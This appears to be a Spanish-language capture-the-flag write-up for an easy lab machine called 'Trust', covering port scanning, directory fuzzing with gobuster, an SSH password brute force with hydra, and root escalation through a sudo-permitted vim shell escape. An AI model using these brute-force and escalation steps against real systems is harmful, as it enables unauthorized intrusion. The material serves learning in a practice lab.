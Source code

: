 ```yaml
---
description: 'Dificultad: Muy fácil'
---
```


# Máquina TRUST

Fecha: 07 de Marzo de 2025

Objetivo: 172.18.0.2

***

## Fase de reconocimiento

Comenzamos haciendo un ping a la máquina para ver si nos contesta.

```
ping 172.18.0.2
```

<figure><img src="../../.gitbook/assets/image (3).png" alt=""><figcaption><p>Respuesta al comando ping</p></figcaption></figure>

Lanzamos el comando NMAP, con los parámetros -sV y -O.

```
nmap -sV 172.18.0.2 -O
```

Acabamos de averiguar que la máquina objetivo dispone de los puertos 80 y 22 abiertos, y funcionando actualmente.&#x20;

* 22/tcp open ssh OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)&#x20;
* 80/tcp open http Apache httpd 2.4.57 ((Debian))

Vamos a visitar la web, para ver que nos arroja el puerto 80.

<figure><img src="../../.gitbook/assets/image (1) (1).png" alt=""><figcaption><p>Captura de pantalla de la salida de Apache al instalar un nuevo servidor</p></figcaption></figure>

Vemos que nos retorna la página de configuración del servidor Apache Web Service. Vamos a probar con los ficheros robots.txt y sitemap.xml para ver si contienen información.

No existen los ficheros robots.txt, ni el sitemap.xml.

Vamos a ver que nos reporta _**Wappalyzzer**_ y podemos ver que nos dice que se trata de un servidor Linux, con un _**"Apache HTTP Service"**_ y una distribución **Debian**.

Probamos con el comando _**whatweb**_ con el parámetro -v y nos reporta lo siguiente.

```
whatweb 172.18.0.2 -v
```

<figure><img src="../../.gitbook/assets/image (3) (1).png" alt=""><figcaption><p>Ssalida del whatweb -v</p></figcaption></figure>

Hice un _**dirb**_ para hallar directorios ocultos y me encontré con el siguiente output del comando.

```
dirb http://172.18.0.2
```

<figure><img src="../../.gitbook/assets/image (4).png" alt=""><figcaption><p>Salida del comando dirb</p></figcaption></figure>

He encontrado una zona llamada _**server-status**_, pero al intentar navegar y acceder a esa parte me aparece lo siguiente.

<figure><img src="../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

Al intentar navegar me dice que tengo el acceso prohíbido.

Vamos a hacer un poco de Fuzzing. El Fuzzing consiste en una metodología en la que enviaremos datos aleatorios o modificados a una aplicación web con el objetivo de provocar errores o descubrir vulnerabilidades.

Primero buscaremos los directorios afectados.

```
gobuster dir -u http://172.18.0.2 -w /usr/share/wordlists/dirb/common.txt -t 30 -o results.txt

```

El comando nos reporta esta salida

<figure><img src="../../.gitbook/assets/image (6).png" alt=""><figcaption><p>Salida del comando gobuster haciendo fuzzing</p></figcaption></figure>

Ahora que ya hemos extraido los directorios, buscaremos en los ficheros.

```
gobuster dir -u http://172.18.0.2 -w /usr/share/wordlists/dirb/common.txt -x php,html,txt -t 30 -o results_files.txt

```

<figure><img src="../../.gitbook/assets/image (7).png" alt=""><figcaption><p>Salida de los ficheros encontrados en la máquina objetivo</p></figcaption></figure>

Podemos ver que hay 3 ficheros en verde que nos devuelven un código 200.

Hemos visitado la web objetivo 172.18.0.2/secret.php y hemos encontrado esto.

<figure><img src="../../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

***

## Fase de Explotación

Lo único que se me ocurre es hacer fuerza bruta al puerto 22 (ssh) pero no se si existe otra solución.

Para ello solo conozco en estos momentos, [hydra](https://www.kali.org/tools/hydra/). Lanzaremos pues el comando para averiguar el password mediante hydra.

```
hydra -l mario -P /usr/share/wordlists/metasploit/unix_passwords.txt -t 6 ssh://172.18.0.2
```

<figure><img src="../../.gitbook/assets/image.png" alt=""><figcaption><p>Resultados del ataque al objetivo con Hydra</p></figcaption></figure>

Fase de Post-Explotación

Una vez obtenidas las credenciales del usuario. Podemos acceder a la máquina objetivo mediante SSH.

```
ssh mario@172.18.0.2
```

Introducimos la password encontrada anteriormente <mark style="color:blue;">**chocolate**</mark>, y estamos dentro.

<figure><img src="../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

Ahora deberíamos buscar los ficheros vulnarables que tenga comprometidos la máquina a nivel de sistema que el SUID sea del usuario root. Para ello lanzaremos el siguiente comando

```
find / -perm -4000 -user root 2>/dev/null
```

<figure><img src="../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

Vemos que la salida del comando nos retorna todos estos ficheros.

Probamos a ver si nos permite ejecutar algo como root.

```
sudo -l
```

<figure><img src="../../.gitbook/assets/image (10).png" alt=""><figcaption><p>Output del sudo -l</p></figcaption></figure>

Vemos que podemos ejecutar sobre vim. Sino sabemos como explotarlo, siempre podemos consultar [GTFOBins ](https://gtfobins.github.io/)

```
sudo vim -c ':!/bin/bash'
```

Y si hacemos un whoami podemos ver que ya somos root.

<figure><img src="../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

